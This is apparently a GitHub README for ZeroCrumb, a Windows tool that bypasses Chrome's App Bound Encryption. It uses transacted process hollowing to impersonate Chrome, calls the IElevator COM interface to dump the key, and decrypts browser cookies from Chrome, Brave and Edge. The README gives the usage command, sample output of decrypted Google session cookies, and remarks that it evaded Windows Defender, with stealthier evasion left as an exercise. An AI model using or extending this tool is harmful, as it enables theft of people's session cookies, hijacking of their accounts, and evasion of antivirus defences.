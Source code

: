
# ZeroCrumb

Bypassing Chrome Elevation Service (Without UAC) To Dump App Bound Keys & Decrypt Cookies.

## Explanation

ZeroCrumb bypasses the Chrome Elevation Service by impersonating a Chrome instance using [Transacted Hollowing](https://github.com/hasherezade/transacted_hollowing/), Effectively allowing us to use the IElevator COM interface to decrypt the App Bound Key.

Then, The key dumper running the in the hollowed chrome instance will send the decrypted key back to ZeroCrumb via a [Named Pipe](https://learn.microsoft.com/en-us/windows/win32/ipc/named-pipes).

After this, ZeroCrumb decrypts the cookies for the specified browser with the key fetched earlier.

## Merits With The Named Pipe Approach
Usage of named pipes in ZeroCrumb allows any program, As long as it can use the Windows API, To connect to the ZeroCrumb named pipe and read the App Bound Key from it. 

## Using ZeroCrumb As A Library
If you want to use ZeroCrumb as a library, You will need to compile a DLL that exports a function that does the hollowing of chrome with the key dumper. You might also need to embed the key dumper PE in the .rsrc section of the compiled DLL and later fetch it with the application resources Windows APIs.

## Usage
You can run this in any directory of your choice as long as the key dumper is in the same directory.
```
ZeroCrumb.exe <BROWSER_TYPE>
```
```
Browser Types:
0 -> Chrome
1 -> Brave
2 -> Edge
```

## Output Example
```
$ ZeroCrumb.exe 0
[*] Reading From Pipe...
App Bound Key: 980f8ea8af3299d966a26242.....
============
Name: SIDCC
Site: .google.com
Path: /
Cookie: AKEyXzXxD19T0KLMkrMC-eUXkrnEFi92OXq6rj1vydvmdL73olBVQGRQ4cG_hK5sqPhO1rLd1CM
============
Name: __Secure-1PSIDCC
Site: .google.com
Path: /
Cookie: AKEyXzXXC8_MNDlVbAaw512aXu-QJkl0uKNW66rhjeufotzoJhT3OPN5TuCQnfKS8l57_WGfDw
============
Name: __Secure-3PSIDCC
Site: .google.com
Path: /
Cookie: AKEyXzVVySM4FWl9itegCN2evcSmBvGc7_iXHqkKZ6VYPKmR--_LsHx1Aflar6SU4nyJiDaFq028
============
Name: udid
Site: .veepn.com
Path: /
Cookie: 0dd5b8bb-8c5b-47f3-87f9-1db8fa7d885f
============
```

## Issues
- Debug build doesn't output the correct key

## Disclaimer
This is by no means the most stealthy implementation of this bypass, It can get detected by checking for specific strings, hooking APIs, etc.

By the time I'm testing this, It got past Windows Defender but I haven't checked other AVs.

I'll leave making the bypass stealthier as an exercise for the user if this bypass implementation gets signatured in the future.

## Credits
[Transacted Hollowing](https://github.com/hasherezade/transacted_hollowing/) by [hasherezade](https://github.com/hasherezade/).

[App Bound Encryption Decryption](https://github.com/xaitax/Chrome-App-Bound-Encryption-Decryption/) by [Xaitax](https://github.com/xaitax/).
